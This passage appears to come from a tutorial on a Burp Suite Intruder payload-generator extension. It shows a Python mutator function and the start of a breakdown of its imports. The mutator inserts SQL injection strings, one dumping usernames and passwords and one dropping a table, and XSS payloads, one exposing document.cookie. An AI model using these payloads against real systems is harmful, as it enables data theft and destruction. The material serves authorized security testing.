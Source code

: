 ```python
    def reset(self):
        self.num_payloads = 0

    def mutate_payload(self, original_payload):
        picker = random.randint(1, 3)
        offset = random.randint(0, len(original_payload) - 1)
        payload = original_payload[:offset]

        if picker == 1:  # SQL Injection Mutation
            payload += random.choice([
                "' OR '1'='1",
                "' OR 'x'='x",
                "' UNION SELECT username, password FROM users --",
                "'; DROP TABLE users; --"
            ])

        elif picker == 2:  # XSS Mutation
            payload += random.choice([
                "<script>alert('Hacked!');</script>",
                "<img src='x' onerror=alert(1)>",
                '"><svg/onload=alert(document.cookie)>'
            ])

        elif picker == 3:  # Payload Repetition
            chunk_length = random.randint(2, max(2, len(original_payload) - offset))
            repeater = random.randint(2, 5)
            for _ in range(repeater):
                payload += original_payload[offset:offset + chunk_length]

        payload += original_payload[offset:]
        return payload
```


---

## **🛠 Code Breakdown**
### **1️⃣ Import Required Modules**
```python
import random
from burp import IBurpExtender, IIntruderPayloadGeneratorFactory, IIntruderPayloadGenerator
from java.util import List, ArrayList
```
- **`random`** → Used for selecting and modifying payloads.
- **Burp Suite Interfaces**:
  - `IBurpExtender`: Registers the extension in Burp Suite.
  - `IIntruderPayloadGeneratorFactory`: Creates the payload generator.
  - `IIntruderPayloadGenerator`: Generates the actual payloads.

---
